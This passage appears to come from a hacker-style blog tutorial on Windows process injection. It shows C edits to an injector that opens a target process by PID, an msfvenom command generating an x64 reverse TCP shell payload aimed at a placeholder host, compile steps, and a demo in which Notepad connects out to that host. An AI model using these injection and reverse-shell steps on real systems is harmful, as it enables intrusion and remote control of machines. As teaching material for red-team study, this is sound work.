 to  

```c  
#include "stdio.h"
```  

and  

```c  
processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
```  

to  

```c  
processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, atoi(argv[1]));
```  

**You should also probably change teh payload, cuz ya know random shellcod3z from teh internetz, plus Mdsvex just doesn't parse this correctly on the blog (watch for missing '\' in any command line commands) and I'm in no hurry to figure out why... We as humans typically don't change until we have to...**

```  
msfvenom -p windows/x64/shell_reverse_tcp LHOST=1.1.1.1 LPORT=4444 -f c -b "\\x00"
```  

![](/go-remote-dll-process-injection/example-1-shellcode.png)  

Compile teh codez again...  

```  
gcc example-1.c -o example-1.exe
```  

**Now, we need to open notepad, get its process id, make sure nothing is already running on port 4444, and run teh c0de.**  

![](/go-remote-dll-process-injection/example-1-netstat.png)  

## As you can see, our l33t haxor script injected itself into the target process and the shellcode was executed. Notepad is trying to reach out to a IP on the interweb, the POC script worked...  

## Ok, cool. We know that we can make notepad run a reverse tcp shell payload by injecting shellcode. But this post is on injecting DLLs, wh4t the h3ck Tims, lets get this going, why you wasting my tim3s, could be doing something kewl right now...  

**This second example is going to teach us how to inject a DLL into a process's memory using C++**  

## Grab the code from teh cocomelonc...  
https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html  
